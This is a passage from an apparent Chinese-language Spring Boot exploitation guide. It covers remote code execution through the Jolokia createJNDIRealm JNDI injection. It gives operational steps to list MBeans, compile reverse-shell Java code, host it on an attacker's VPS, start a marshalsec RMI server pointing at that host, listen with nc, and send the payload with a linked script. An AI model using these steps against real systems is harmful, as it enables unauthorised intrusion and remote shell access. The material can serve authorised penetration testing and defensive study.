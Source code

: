 - 目标网站存在 `/jolokia` 或 `/actuator/jolokia` 接口
- 目标使用了 `jolokia-core` 依赖（版本要求暂未知）并且环境中存在相关 MBean
- 目标可以请求攻击者的服务器（请求可出外网）
- 普通 JNDI 注入受目标 JDK 版本影响，jdk < 6u141/7u131/8u121(RMI)，但相关环境可绕过



#### 利用方法：

##### 步骤一：查看已存在的 MBeans

访问 `/jolokia/list` 接口，查看是否存在 `type=MBeanFactory` 和 `createJNDIRealm` 关键词。



##### 步骤二：准备要执行的 Java 代码

编写优化过后的用来反弹 shell 的 [Java 示例代码](https://raw.githubusercontent.com/LandGrey/SpringBootVulExploit/master/codebase/JNDIObject.java)  `JNDIObject.java`。



##### 步骤三：托管 class 文件

在自己控制的 vps 机器上开启一个简单 HTTP 服务器，端口尽量使用常见 HTTP 服务端口（80、443）

```bash
# 使用 python 快速开启 http server

python2 -m SimpleHTTPServer 80
python3 -m http.server 80
```

将**步骤二**中编译好的 class 文件拷贝到 HTTP 服务器根目录。



##### 步骤四：架设恶意 rmi 服务

下载 [marshalsec](https://github.com/mbechler/marshalsec) ，使用下面命令架设对应的 rmi 服务：

```bash
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer http://your-vps-ip:80/#JNDIObject 1389
```



##### 步骤五：监听反弹 shell 的端口

一般使用 nc 监听端口，等待反弹 shell

```bash
nc -lvp 443
```



##### 步骤六：发送恶意 payload

根据实际情况修改 [springboot-realm-jndi-rce.py](https://raw.githubusercontent.com/LandGrey/SpringBootVulExploit/master/codebase/springboot-realm-jndi-rce.py) 脚本中的目标地址，RMI 地址、端口等信息，然后在自己控制的服务器上运行。


